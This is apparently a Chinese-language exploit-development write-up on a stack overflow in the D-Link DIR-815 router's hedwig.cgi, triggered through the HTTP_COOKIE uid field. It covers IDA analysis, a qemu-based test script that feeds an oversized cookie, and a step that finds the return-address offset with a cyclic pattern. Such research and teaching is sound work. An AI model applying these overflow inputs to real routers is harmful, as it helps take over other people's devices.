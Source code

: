 IDA静态调试`cgibin`文件，`hedwigcgi_main`函数处理整个过程，由于是`HTTP_COOK`这个字段引起的漏洞溢出点，可以在IDA（SHIFT+F12）搜索字符串，然后通过X，交叉引用来跟踪到`hedwigcgi_main`函数条用的位置。

跟踪到主函数的位置hedwigcgi_main，对函数功能进行大致分析，可以定位到其中的`sprintf`函数引起了栈溢出。调用`sess_get_uid`，得到`HTTP_COOKIE`的值。同样创建两个指针数组`a1,a2`，以等号为界将前半部分存入`a1`偏移为5处，后半部分存入`a2`偏移为5处，`a1[5]`为`uid`则将`a2[5]`存入参数指针数组的偏移为5处。函数`sobj_get_string`获得该数组中指向`cookie`的指针。

![](/images/D-LINK DIR-815多次溢出漏洞/1752587184394.png)

  

**IDA动态调试-确定偏移位置**

程序通过 getenv 的方式获取 HTTP 数据包中的数据，流程应该为：


​    
​    主Web程序监听端口->传送HTTP数据包->  
​    HTTP中headers等数据通过环境变量的方式传给cgi处理程序->  
​    cgi程序通过getenv获取数据并处理返回给主程序->向客户端返回响应数据  
​    #POST具体数据可以通过类似输入流传入 ：echo "uid=aaa"| /htdocs/web/hedwig.cgi

测试脚本test.sh


​    
​    #!/bin/bash  
​    #注意：里面=和变量之间一定不要有空格，坑，否则读入空数据。  
​    test=$(python -c "print ('uid='+open('content','r').read(2000))") #方式一，以文件形式读入内容，提前填充好构造的数据到content文件  
​    #test=$(python -c "print 'uid=' + 'A'*0x600" )#方式二，直接后面接数据内容  
​    #test=$(python -c "print 'uid='+open('exploit','r').read()")  
​    #test =$(python -c "print 'uid=' + 'A'*1043 + 'B'*4")#可选构造数据  
​       
​    LEN=$(echo -n "$test" | wc -c)      
​    PORT="1234"  
​    cp $(which qemu-mipsel-static) ./qemu  
​    sudo chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$test -E REQUEST_URL="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/hedwig.cgi 2>/dev/null      
​    #-E参数：加入环境变量 ；2>/dev/null ：不输出提示错误  
​    rm -f ./qemu

利用patternLocOffset.py生成content文件，包含特定格式的2000个字符串。类似于cyclic


​    
​    python patternLocOffset.py  -c  -l  2000 -f content

在0x0409A38处断下

![](/images/D-LINK DIR-815多次溢出漏洞/1752587184732.png)![](/images/D-LINK
DIR-815多次溢出漏洞/1752587185298.png)

`python patternLocOffset.py -s 0x38694237 -l 2000`计算偏移：

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185374.png)
